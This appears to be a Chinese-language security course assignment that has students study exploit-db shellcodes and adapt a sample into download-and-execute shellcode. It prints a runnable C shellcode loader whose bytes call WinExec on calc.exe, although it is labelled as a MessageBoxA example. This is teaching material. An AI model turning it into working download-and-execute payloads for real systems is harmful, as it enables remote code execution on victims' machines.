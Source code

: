 # ShellCode

1. 详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

找一个 VERIFIED 的代码，有点难

## Windows

- [弹出MessagBox的参考示例代码](https://www.exploit-db.com/shellcodes/13828)

```c
/*
Title: Allwin MessageBoxA Shellcode
Date: 2010-06-11
Author: RubberDuck
Web: http://bflow.security-portal.cz
Tested on: Win 2k, Win 2003, Win XP Home SP2/SP3 CZ/ENG (32), Win Vista (32)/(64), Win 7 (32)/(64), Win 2k8 (32)
Thanks to: kernelhunter, Lodus, Vrtule, Mato, cm3l1k1, eat, st1gd3r and others
*/

#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

